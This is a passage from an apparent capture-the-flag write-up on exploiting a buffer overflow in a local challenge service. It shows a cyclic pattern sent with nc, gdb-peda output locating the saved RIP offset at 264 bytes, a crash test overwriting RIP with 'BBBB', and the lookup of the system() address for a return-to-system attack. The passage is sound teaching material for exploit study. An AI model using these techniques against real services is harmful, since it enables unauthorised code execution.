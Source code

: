 Send the (now smaller) pattern to the server:
```
root@hlUbuntu64:~/challenges/challenge15# echo 'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%d' | nc localhost 5001
```

And investigate it again:
```
gdb-peda$ pattern_search
Registers contain pattern buffer:
RBP+0 found at offset: 256
RIP+0 found at offset: 264
Registers point to pattern buffer:
[RDI] --> offset 6 - size ~203
Pattern buffer found at:
0x0060301a : offset    0 - size  268 ([heap])
[...]
```

Our assumption was correct. `RIP+0` is pointing 264 bytes into our generated pattern.
Therefore the offset is 264 bytes.

We can verify this. Lets print 264 times 'A', followed with 4 times "B".
```
root@hlUbuntu64:~/challenges/challenge15# perl -e 'print "A" x 264 . "BBBB"'
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBroot@hlUbuntu64:~/challenges/challenge15#
root@hlUbuntu64:~/challenges/challenge15# perl -e 'print "A" x 264 . "BBBB"' | nc localhost 5001
```

Result:
```
Stopped reason: SIGSEGV
0x0000000042424242 in ?? ()
```

As the letter B is hex 0x42, we see that we have the correct offset.

## Address of system()

We can just print the address of `system()` after the program started.
Note that it has to begin with `0x40` (the code section is starting at `0x00400000`).
```
root@hlUbuntu64:~/challenges/challenge15# gdb -q ./challenge15
gdb-peda$ print &system
$1 = (<text variable, no debug info> *) 0x4007b0 <system@plt>
```

A wrong address:
```
gdb-peda$ print &system
$1 = (<text variable, no debug info> *) 0x7ffff7a53380 <__libc_system>
```
